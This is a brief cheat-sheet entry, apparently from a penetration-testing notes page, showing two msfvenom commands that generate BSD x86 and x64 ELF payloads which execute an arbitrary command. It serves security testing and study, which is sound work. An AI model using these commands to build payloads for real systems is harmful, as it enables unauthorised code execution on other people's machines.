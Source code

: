 # Exec Payloads

## Execute BSD Exec Payload

```
$ msfvenom -p bsd/x86/exec cmd="<commands>" -f elf -o exec-cmd-x86

$ msfvenom -p bsd/x64/exec cmd="<commands>" -f elf -o exec-cmd-x64
```